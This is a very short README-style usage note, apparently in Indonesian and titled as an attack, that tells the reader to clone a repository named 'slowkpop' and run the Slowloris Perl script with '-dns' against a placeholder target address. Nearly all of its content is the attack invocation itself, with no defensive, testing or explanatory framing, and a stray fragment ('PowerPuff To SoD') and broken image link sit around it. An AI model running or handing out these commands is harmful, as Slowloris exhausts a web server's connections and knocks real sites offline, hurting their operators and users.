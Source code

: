 # Atak Ra ni
PowerPuff To SoD
git clone https://github.com/mrzev123/slowkpop.git
perl slowloris.pl -dns ipatak
